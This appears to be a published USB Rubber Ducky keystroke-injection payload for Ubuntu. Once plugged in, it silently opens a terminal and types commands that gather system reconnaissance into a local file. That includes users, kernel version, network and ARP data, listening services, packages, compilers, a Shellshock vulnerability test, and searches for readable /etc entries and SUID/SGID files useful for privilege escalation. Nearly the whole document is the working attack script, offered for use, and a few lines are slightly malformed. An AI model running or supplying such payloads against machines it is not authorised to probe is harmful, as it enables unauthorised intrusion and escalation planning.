 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the following:
- Logged in Username
- Distribution and kernel version of running system
- Applicability of Shellsock Bug Vulnerability
- Mounted Filesystem
- Network Adapters info
- Availability of Development tools (python, g++ etc)
- Printing of hosts file
- Printing of TCP/UDP Listening Services
- Gathering of installed Ubuntu Packages
- Searches for readable Folders in /etc
- Searches for SUID and GUID files



    REM Infogathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock
    DELAY 3000
    ALT F2
    DELAY 300
    STRING gnome-terminal 
    DELAY 100
    ENTER
    DELAY 200
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user:" $USER > info_gathering.txt
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50 
    STRING echo -n "uname results: " >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING uname -a >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt
    DELAY 50
    ENTER 
    STRING echo >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Mounted filesystems" >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING mount -l >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING echo "Network Configuration" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print Hosts" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING cat /etc/hosts >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo echo "Print ARP" >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING arp >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Development tools availability" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which gcc >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which g++ >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which python >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING netstat -tunlpe >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Installed Packages" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 200
    STRING dpkg -l >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find Readable Folders in /etc" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
    ENTER
    DELAY 500
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find SUID and GUID files" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
    DELAY 50
    ENTER